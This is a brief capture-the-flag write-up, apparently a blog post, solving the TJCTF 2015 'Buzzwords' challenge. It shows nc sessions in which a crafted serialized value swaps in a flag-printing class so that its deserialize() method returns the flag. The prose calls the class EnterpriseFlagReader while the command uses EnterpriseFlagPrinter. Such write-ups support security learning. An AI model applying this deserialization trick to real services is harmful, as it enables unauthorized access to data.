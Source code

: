 ```yaml
---
layout: post
title: "TJCTF 2015 Buzzwords"
date: 2015-04-29 02:19:56 -0400
author: [superkojiman]
comments: true
categories: [tjctf]
---
```


### Solved by superkojiman

Connecting to the target presents a menu:

```
koji@pwnbox32:~/Desktop/buzzword$ nc p.tjctf.org 8089
Welcome to the Enterprise Buzzword Factory
Here are your options: 
1. Show all buzzwords
2. Create a buzzword
3. Add a buzzword
```

We can add buzzwords using EnterpriseBuzzword:whatever. However if we look at the provided Java source files, we see that EnterpriseFlagReader has the same deserialize() method that EnterpriseBuzzword has, except that it returns the flag. So instead, we'll use EnterpriseFlagPrinter when adding buzzword:

```
koji@pwnbox32:~/Desktop/buzzword$ nc p.tjctf.org 8089
Welcome to the Enterprise Buzzword Factory
Here are your options: 
1. Show all buzzwords
2. Create a buzzword
3. Add a buzzword
3
Your serialized buzzword: EnterpriseFlagPrinter:w00t
your flag is ayy lmao
```

Flag is: ayy lmao

